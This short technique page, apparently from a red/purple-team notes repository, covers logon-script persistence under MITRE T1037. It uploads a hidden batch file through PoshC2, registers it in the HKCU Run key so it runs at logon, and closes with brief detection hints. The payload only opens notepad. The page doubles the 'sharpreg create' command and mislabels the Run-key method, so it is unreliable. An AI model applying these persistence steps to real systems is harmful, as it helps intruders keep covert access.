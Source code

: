 # [Logon scripts](https://attack.mitre.org/techniques/T1037/)

## Exploit syntax:
1. Create a file in your posh payloads folder called "evilMorty.bat" and paste the following: 
```
@echo off
start /MIN /DC:\Windows\System32 notepad.exe
```

In Poshc2, run
```sh
upload-file
evilMorty.bat
C:\howDidSheGetThere.bat
```
> *NOTE*: Feel free to make the .bat file hidden

```sh
sharpreg create sharpreg create "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" "UhOh" "C:\howDidSheGetThere.bat" #Create the key and populate its value with the location of the file you uploaded
```
## Detections techniques:
* Investigate file creation in the default windows logon script location in the registry. HKEY_CURRENT_USER\Environment "UserInitMprLogonScript"(checked)
* Event code:
    * 13: Registry value set
